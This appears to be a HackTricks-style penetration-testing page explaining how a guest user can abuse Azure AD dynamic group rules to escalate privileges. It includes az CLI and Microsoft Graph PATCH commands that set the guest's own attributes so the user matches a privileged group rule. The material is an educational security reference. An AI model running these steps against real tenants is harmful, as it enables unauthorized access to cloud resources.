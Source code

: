 # Az - Dynamic Groups Privesc

{{#include ../../../../banners/hacktricks-training.md}}

## Basic Information

**Dynamic groups** are groups that has a set of **rules** configured and all the **users or devices** that match the rules are added to the group. Every time a user or device **attribute** is **changed**, dynamic rules are **rechecked**. And when a **new rule** is **created** all devices and users are **checked**.

Dynamic groups can have **Azure RBAC roles assigned** to them, but it's **not possible** to add **AzureAD roles** to dynamic groups.

This feature requires Azure AD premium P1 license.

## Privesc

Note that by default any user can invite guests in Azure AD, so, If a dynamic group **rule** gives **permissions** to users based on **attributes** that can be **set** in a new **guest**, it's possible to **create a guest** with this attributes and **escalate privileges**. It's also possible for a guest to manage his own profile and change these attributes.

Get groups that allow Dynamic membership: **`az ad group list --query "[?contains(groupTypes, 'DynamicMembership')]" --output table`**

### Example

- **Rule example**: `(user.otherMails -any (_ -contains "security")) -and (user.userType -eq "guest")`
- **Rule description**: Any Guest user with a secondary email with the string 'security' will be added to the group

For the Guest user email, accept the invitation and check the current settings of **that user** in [https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView](https://entra.microsoft.com/#view/Microsoft_AAD_IAM/TenantOverview.ReactView).\
Unfortunately the page doesn't allow to modify the attribute values so we need to use the API:

```powershell
# Login with the gust user
az login --allow-no-subscriptions

# Get user object ID
az ad signed-in-user show

# Update otherMails
az rest --method PATCH \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --headers 'Content-Type=application/json' \
  --body '{"otherMails": ["newemail@example.com", "anotheremail@example.com"]}'

# Verify the update
az rest --method GET \
  --url "https://graph.microsoft.com/v1.0/users/<user-object-id>" \
  --query "otherMails"
```

## References

- [https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/](https://www.mnemonic.io/resources/blog/abusing-dynamic-groups-in-azure-ad-for-privilege-escalation/)

{{#include ../../../../banners/hacktricks-training.md}}





